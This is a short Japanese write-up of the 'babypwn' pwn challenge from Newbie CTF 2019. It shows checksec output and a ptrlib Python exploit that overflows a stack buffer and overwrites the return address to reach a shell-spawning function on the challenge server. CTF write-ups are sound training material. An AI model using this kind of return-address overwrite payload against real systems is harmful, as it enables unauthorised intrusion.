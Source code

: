 # [pwn 521pts] babypwn - Newbie CTF 2019
64ビットで全部無効です。
```
$ checksec -f babypwn
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   71 Symbols     No       0               4       babypwn
```
単純なBOFとシェルを起動する関数があるのでリターンアドレスを書き換えます。
```python
from ptrlib import *

elf = ELF("./babypwn")
#sock = Process("./babypwn")
sock = Socket("prob.vulnerable.kr", 20035)

payload = b"A" * 0x408
payload += p64(0x40065a)
payload += p64(elf.symbol("flag2"))
sock.sendline(payload)

sock.interactive()
```

# 感想
簡単ですね。